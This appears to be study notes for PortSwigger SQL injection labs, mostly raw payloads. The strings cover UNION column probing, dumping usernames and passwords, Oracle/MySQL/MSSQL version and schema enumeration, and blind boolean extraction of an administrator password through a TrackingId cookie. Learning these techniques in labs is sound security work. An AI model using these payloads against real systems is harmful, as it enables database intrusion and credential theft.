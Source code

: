 # SQL Injection 

[SQL cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## UNION attack
### 1) Determining the number of columns returned by the query

> **'+UNION+SELECT+NULL,NULL--** 
>
Using the above command continue adding null values until the error disappears and the response includes additional content containing the null values.

### 2) Finding a column containing text
Try replacing each null with the random value provided by the lab, for example:
> **'+UNION+SELECT+'abcdef',NULL,NULL--**
>
If an error occurs, move on to the next null and try that instead.

### 3) Retrieving data from other tables
Use the following payload to retrieve the contents of the users table: 
> **'+UNION+SELECT+username_column,+password_column+FROM+table_name--**
>

### 4) Retrieving multiple values in a single column

Use the following payload to retrieve the contents of the users table: 
> **'+UNION+SELECT+NULL,username||'~'||password+FROM+users--**
>
the '~' is used to add values to the single column 

## Finding versions
### 5) querying the database type and version on Oracle
There is a built-in table on Oracle called DUAL which you can use for this purpose. For example: 
> **UNION+SELECT+'abc'+FROM+DUAL**
>
Use the following payload to display the database version of *ORACLE*: 
>**'+UNION+SELECT+BANNER,+NULL+FROM+v$version--**
>
Use the following payload to display the database version of *MYSQL and MICROSOFT*: 
>**'+UNION+SELECT+@@version,+NULL#**
>
listing the database contents on *non-Oracle databases*
>**'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--**
>**'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='USERS_ABCDEF'--**
>

## Blind injection
### 6) Blind SQL injection with conditional responses
Boolean injection to find password of admin, below is a boolean injection
>** TrackingId=x'+OR+1=1--**
>
below is used to find the length of password using *length()* function
>**TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+length(password)>1--**
>
To find characters of the password  using *substring()* function by changing index numbers after column name (here password)
>**TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,1,1)='a'--**


